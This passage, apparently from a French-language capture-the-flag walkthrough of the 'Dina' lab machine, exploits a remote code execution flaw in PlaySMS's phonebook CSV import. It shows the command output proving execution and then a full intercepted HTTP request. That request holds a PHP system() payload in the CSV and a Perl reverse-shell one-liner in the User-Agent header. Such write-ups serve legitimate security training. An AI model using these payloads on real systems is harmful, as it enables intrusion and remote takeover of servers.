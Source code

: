 ```console
			<table class=playsms-table-list>
			<thead><tr>
				<th width="5%">*</th>
				<th width="20%">Name</th>
				<th width="20%">Mobile</th>
				<th width="25%">Email</th>
				<th width="15%">Group code</th>
				<th width="15%">Tags</th>
			</tr></thead><tbody>
						<tr>
						<td>1.</td>
						<td>uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
</td>
						<td>22</td>
						<td></td>
						<td></td>
						<td></td>
						</tr>
				</tbody></table>
				</div>

--snip--
```

![Affichage de l'image Index-ImportCSV-RCE.png](images/Index-ImportCSV-RCE.png)

Ça a marché ! À présent, un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) va être mis en place, afin de créer une connexion sur le port 12345 entre le serveur Dina (192.168.56.101) et notre propre machine (192.168.56.102). Pour varier un peu les plaisirs, le _one-liner_ en Perl est choisi au détriment de Python.

### Requête n°2 interceptée par Burp

```console
POST /SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=import HTTP/1.1
Host: 192.168.56.101
User-Agent: perl -e 'use Socket;$i="192.168.56.102";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.101/SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=list
Content-Type: multipart/form-data; boundary=---------------------------32075226656004
Content-Length: 448
Cookie: PHPSESSID=ptslj41of81uh73res2dke4h85
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------32075226656004
Content-Disposition: form-data; name="X-CSRF-Token"

1df086a9ab06c8807a95c6799aa25fab
-----------------------------32075226656004
Content-Disposition: form-data; name="fnpb"; filename="RCE-playsms.csv"
Content-Type: application/vnd.ms-excel

"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
-----------------------------32075226656004--
```